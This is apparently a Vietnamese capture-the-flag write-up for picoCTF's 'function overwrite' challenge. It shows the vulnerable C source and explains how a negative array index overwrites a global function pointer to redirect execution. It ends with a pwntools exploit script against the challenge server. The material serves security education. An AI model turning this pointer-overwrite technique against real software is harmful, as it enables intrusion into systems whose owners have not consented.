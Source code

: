 # funtion overwrie

**soucre C:**

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}


```

chall này khá lạ đấy chứ

**tại hàm vuln thì thấy hàm check đang trỏ đến hard_checker**

hàm **hard_checker** thì có thể in flag, yêu cầu là hàm **calculate_story_score trả về 13371337**

hàm **calculate_story_score** thì **lấy từng giá trị trong story cộng dồn vào**

hmm ở đây có 1 vấn đề, giờ chúng ta phân tích nha:

![image](https://github.com/gookoosss/CTF/assets/128712571/880f49fd-f41c-4ffe-b16c-8199383d1aa8)


**hình bảng mã ascii ở trên thì tối đa là 255, story cho phép ta nhập 127 kí tự , tính ra hàm calculate_story_score chỉ có thể trả về tối đa là 32385, ko thể nào trả về được 13371337**

![image](https://github.com/gookoosss/CTF/assets/128712571/cb801f0d-f469-45b5-a686-1bb82a01ae77)


à để ý thì có **hàm easy_checker giống hệt hàm hard_checker** nhưng mà chỉ y**êu cầu calculate_story_score trả về 1337**, nên ta sẽ tập trung vào đây

h ta sẽ tìm địa chỉ fun và check xem sao


![image](https://github.com/gookoosss/CTF/assets/128712571/51fbd4af-ba49-438d-bbb2-1ce6df48f710)


hàm fun và check cách nhau 64byte nên, nếu ta cho fun lùi lại 16 stack thì sẽ đến check ,mỗi stack 4byte, 64 / 4 = 16 **nên tại num1 ta sẽ nhập -16**


![image](https://github.com/gookoosss/CTF/assets/128712571/cf04ac50-e024-48a8-b30f-536426407b95)


lúc này **fun[-16] sẽ là hàm check** , mà check đang trỏ đến hard_checker **nên ta cần tính offset từ hard_checker đến easy_checker rồi nhập vào num2 là -314**

**tóm tắt:**
```
fun[-16] == check()
check => hard_checker
check - 314 => hard_checker - 314 == easy_checker
```

![image](https://github.com/gookoosss/CTF/assets/128712571/69924619-13b0-4c01-a8e8-8d3e21d407bb)


à ta cần cái story để calculate_story_score trả về 1337, **vậy ta sẽ nhập 13 chữ a và 1 chữ L là aaaaaaaaaaaaaL**

![image](https://github.com/gookoosss/CTF/assets/128712571/59b8a660-f2ef-4a9e-a148-4057ecec4b5c)


**script:**

```python

#!/usr/bin/python3

from pwn import *

context.binary = exe =ELF('./vuln',checksec=False)

#p = process(exe.path)
p = remote('saturn.picoctf.net', 53550)

check = 0x804c040
fun = 0x804c080
#offset = 64
easy_checker = 0x80492fc
hard_checker = 0x8049436
#offset = 314

payload = b'aaaaaaaaaaaaaL'

p.sendlineafter(b'>> ',payload)

payload = b'-16 -314'

p.sendlineafter(b'10.',payload)

p.interactive()

```







